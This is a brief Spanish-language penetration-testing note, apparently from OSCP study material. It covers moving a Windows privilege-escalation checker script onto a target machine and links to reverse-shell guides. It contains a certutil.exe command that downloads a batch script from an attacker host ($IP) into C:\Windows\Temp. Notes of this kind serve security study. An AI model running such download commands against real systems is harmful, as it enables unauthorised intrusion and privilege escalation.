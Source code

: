 ### Windowsprivchecker.bat

Utilizado para Windows sin Powershell
Pasar a la maquina 
```
certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura 
```

### Reverse shells 
```
-https://www.puckiestyle.nl/
-https://sushant747.gitbooks.io/total-oscp-guide/content/reverse-shell.html
```
